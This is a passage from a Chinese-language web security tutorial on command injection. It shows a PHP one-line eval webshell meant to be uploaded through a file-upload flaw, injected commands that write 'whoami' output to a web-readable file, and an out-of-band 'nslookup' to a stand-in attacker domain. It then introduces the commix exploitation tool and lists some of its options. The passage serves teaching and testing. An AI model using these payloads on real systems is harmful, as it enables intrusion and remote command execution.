 上述代码就是一个最简单的一句话木马，我们需要利用文件上传漏洞，将它上传到目标网站，之后使用 `POST` 的方式传入 `attack` 的值对它进行访问。我们可以将 `attack` 的值设为 `echo 'a';`，这时代码就变为：

```php
<?php @eval("echo 'a';"); ?>

```

这样，我们就能使用一句话木马实现命令的执行。在这个一句话木马中，我们利用了PHP中的eval函数。总体来看，一句话木马和Eval注入都可以利用eval函数来实现命令的注入。不同的是，一句话木马需要利用攻击者上传的恶意文件中的eval函数去运行恶意命令，而Eval注入利用的则是应用本身设计不严谨的eval函数去运行恶意命令。

在弄清楚一句话木马和命令注入的区别后，我们对命令注入基础知识的学习就完成了。下面让我们开始进阶学习，了解在盲注的情况下，命令注入要如何完成。

### 命令盲注

在SQL注入中，我们学习过盲注的概念。其实在命令注入中，也有盲注的情况。下面我们来看看，在命令注入中是如何实现盲注的。

盲注意味着网络应用在 `HTTP` 响应中不返回我们注入的命令的输出结果。但是我们还是可以通过不同的方法来利用这个注入漏洞。下面我们来看三种解决盲注的方案，它们是时延注入、文件输出以及带外注入。

首先我们来看时延注入，这可以帮助我们确定，注入漏洞是否存在。在使用时延注入时，如果我们观察到应用是在我们设置的时延之后进行响应的，那么，尽管我们无法获得注入命令的输出值，也可以确定注入漏洞确实存在。

接下来是文件输出，通过这种方式，我们在 `HTTP` 响应中无法获取到的注入命令输出结果，可以通过其他方式获得。例如，我们可以将输出写入一个允许访问的静态资源下的文件里，写入之后访问该文件，就可以获得注入命令的输出值了。下面我们一起看一个示例来加深理解。

```bash
#应用允许访问的静态资源目录为 ‘/var/www/static/whoami.txt’。
#我们可以构造恶意命令为：
& whoami > /var/www/static/whoami.txt &
#之后我们就可以访问 'https://vulnerable-website.com/whoami.txt'来访问该文件获取我们注入命令的输出信息。

```

最后，我们还可以通过带外注入的方法来确认命令注入是否成功。

```plain
#假设攻击者有一个’kgji2ohoyw.web-attacker.com‘网址。
#注入的命令如下
& nslookup kgji2ohoyw.web-attacker.com &

```

这个注入命令会使用 `nslookup` 命令，对指定的域名进行 `DNS` 查询。攻击者可以观察到指定查找的发生过程，这样就可以判断出命令注入是否成功。

## 实战部分

下面我们一起来进行一个案例实战，该靶场已经搭建于谜团中，大家可以访问极客时间课程——命令注入靶场进行实战测试。在这次的案例实战中，我们用到了一个工具 `commix`，它的名字的含义为 `command injection exploiter`。从它的名字我们就能知道，这是一个命令注入工具。事实上它是一款开源工具，用于测试网络应用是否存在基于命令注入的漏洞。这款工具是自动检测的，我们不需要太多的手动操作。当它检测出注入的存在时，可以返回一个服务器上的 `shell`。

这款工具是用Python语言编写的，所以我们可以在Linux、Mac以及Windows系统中运行它。我们可以在“ [GitHub - commixproject/commix: Automated All-in-One OS Command Injection Exploitation Tool.](https://github.com/commixproject/commix)”这个页面获取该软件。下载完之后，我们可以用 `python commix.py -h`，获得该软件的用法。因为该工具参数太多，所以这里仅列举出常用的选项和参数。

```plain
Target:
#该选项必须被配置，用来定义目标的地址。
-u  URL            目标地址
Request:
#这些选项可以被用来明确如何链接到目标地址。
-d  DATA           通过POST方式上传的数据信息。
--host=HOST        设置HTTP主机信息。
--cookie=COOKIE    设置HTTP的cookie信息。
--user-agent=AGENT 设置HTTP的User-Agent信息。
Detection:
#这些选项用来设置检测方法
--level=LEVEL      设置检测的等级（1-3），默认为1。

```
